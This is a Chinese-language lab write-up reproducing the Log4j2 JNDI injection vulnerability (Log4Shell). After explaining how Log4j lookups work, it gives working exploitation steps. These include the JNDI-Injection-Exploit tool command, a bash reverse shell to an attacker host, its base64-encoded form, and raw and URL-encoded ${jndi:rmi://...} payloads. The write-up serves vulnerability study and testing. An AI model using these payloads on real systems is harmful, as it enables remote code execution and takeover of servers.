





# 1、基础简述
- Log4j：Apache的开源日志库，可以将日志信息输出到控制台、文件、GUI组件等，用于开发人员记录程序的输入输出的日志信息
- JNDI：是Java中用于访问各种命名和目录服务的API，JNDI提供了一套标准的方式可以访问各种命名和目录服务，比如访问指定的远程服务器并加载其中的资源
  - 其中有两个常用协议：RMI（远程方法调用）和LDAP（轻量目录访问协议）

# 2、原理
- 介绍：当程序使用log4j2.x版本记录用户的输入数据时，由于该版本提供并开启了Lookup功能，会对日志内容中的特定模式进行解析，如果用户的输入数据中存在恶意的JNDI语句，log4j就会解析并执行该语句，从而触发远程代码执行
- 栗子：比如当用户输入 ${jndi:ldap://hacker.com/Exploit}，程序的Log4j组件在记录日志时，会识别并解析这个 ${jndi:...} 模式。随后，它会通过JNDI向攻击者控制的RMI服务器发起请求，并加载和执行RMI服务器返回的恶意Java类（Exploit.class），最终导致攻击者在目标服务器上执行任意命令

# 3、实验准备
```
环境：
java version "1.8.0_131"
工具：
JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 
```

# 4、复现过程
## 1、验证漏洞

* 打开目标URL：


* 点击?????：


* 访问Burp的dnslog：


* 结果如下：


* 通过验证可知此处存在漏洞

## 2、漏洞利用

* 在云服务器安装JNDI注入工具：


* 工具用法：
```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "command" -A "hackerIP"
```

* 反弹shell payload：
```bash
hacker_ip => 目标主机IP

command => bash -i >& /dev/tcp/hacker_ip/port 0>&i

base64 command=> YmFzaCAtaSA+JiAvZGV2L3RjcC9oYWNrZXJfaXAvcG9ydCAwPiZp

finally => java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9oYWNrZXJfaXAvcG9ydCAwPiZp}|{base64,-d}|{bash,-i}" -A "hacker_ip"
```

* 执行最终命令：


* 另起终端监听设定的端口：


* 访问工具生成的poc：
```bash
${jndi:rmi://hacker_ip:1099/ywsv0t}

%24%7Bjndi%3Armi%3A%2F%2Fhacker_ip%3A1099%2Fywsv0t%7D
```

* 结果如下：


* 成功获取shell！